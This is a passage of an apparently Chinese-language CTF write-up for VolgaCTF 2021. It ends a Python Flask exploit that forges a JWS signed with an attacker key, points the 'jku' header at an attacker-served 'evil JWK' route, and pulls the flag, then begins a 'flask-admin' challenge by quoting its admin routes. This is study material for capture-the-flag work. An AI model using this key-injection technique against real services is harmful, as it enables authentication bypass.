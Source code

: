 ```python
   jwstoken = jws.JWS(payload.encode('utf-8'))
   jwstoken.add_signature(key=key,alg='RS256',protected=None,header=json_encode({"kid": key.thumbprint(), 'jku':jku, "alg":"RS256"}))
   sig = jwstoken.serialize()
   return sig

@app.route('/hack') #to redirect, return evil JWK
def hack(): #need send as file
   with open('tmp.file', 'w') as file_write:
       file_write.write(jwk.JWK(**json.loads(app.config['all_key'])).export_public())
   uploads = os.path.join(os.path.abspath(os.path.dirname(__file__)))
   return send_from_directory(directory='.',filename='tmp.file')

@app.route('/get_flag')
def get_flag():
   payload = index()
   answ = requests.get('http://localhost:5000/jws_check',params={'payloads':payload}).text
   flag = answ
   flag = re.findall('VolgaCTF{.+?}', answ)[-1]
   print(flag)
   return flag
   
if __name__ == '__main__':
   app.run(port=5002, host='0.0.0.0')
```









## 0x04 flask-admin

http://172.105.84.156:5000/

[routes.py](https://q.2021.volgactf.ru/files/4d8310081ee27faaf342cfcf19b0c4d3/routes.py)

这道题给routes.py

拿到flag的条件是以admin身份登录，最开始我们想的是通过session伪造的方式，但是拿不到key，题目给的是flask-admin，想必是flask-admin的问题。

![image-20210330213957979](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210330213957979.png)

其中对于flask-admin页面的路由写的很奇怪

```python
class MyAdmin(admin.AdminIndexView):
    @expose('/')
    @admin_required
    def index(self):
        return super(MyAdmin, self).index()

    @expose('/user')
    @expose('/user/')
    @admin_required
    def user(self):
        return render_template_string('TODO, need create custom view')


admin = Admin(app,
              name='VolgaCTF',
              template_mode='bootstrap3',
              index_view=MyAdmin())
admin.add_view(ModelView(User, db.session))
```
